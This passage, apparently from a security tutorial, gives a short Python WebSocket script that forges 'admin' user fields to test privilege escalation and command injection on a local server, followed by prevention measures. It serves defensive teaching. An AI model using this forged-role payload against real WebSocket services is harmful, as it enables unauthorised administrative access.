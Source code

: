 **Python Script for Automated Exploitation:**
```python
import websocket
import json
import time

def on_message(ws, message):
    print(f"Received: {message}")
    data = json.loads(message)
    if "admin" in message.lower():
        print("[+] Admin privilege escalation successful!")

def on_error(ws, error):
    print(f"Error: {error}")

def on_open(ws):
    print("[*] WebSocket connection established")
    
    # Send privilege escalation payload
    exploit_payload = {
        "type": "message",
        "content": "Privilege escalation test",
        "user": "admin",
        "timestamp": time.strftime("%Y-%m-%dT%H:%M:%SZ")
    }
    ws.send(json.dumps(exploit_payload))
    
    # Send command injection payload
    command_payload = {
        "type": "command",
        "content": "getUserList",
        "user": "admin",
        "timestamp": time.strftime("%Y-%m-%dT%H:%M:%SZ")
    }
    ws.send(json.dumps(command_payload))

# Connect to vulnerable WebSocket server
ws = websocket.WebSocketApp("ws://localhost:5000",
                          on_message=on_message,
                          on_error=on_error,
                          on_open=on_open)
ws.run_forever()
```

### Real-World Impact
- Chat applications with role-based access
- Real-time trading platforms
- Collaborative editing tools
- IoT device control interfaces

### Advanced Prevention Measures
1. Implement server-side message validation for all WebSocket communications
2. Use cryptographic signatures to prevent message tampering
3. Implement role-based access control on the server side
4. Rate limit WebSocket message frequency
5. Log and monitor all WebSocket command executions
6. Use WSS (WebSocket Secure) with proper TLS configuration
7. Implement WebSocket authentication tokens with short expiration

---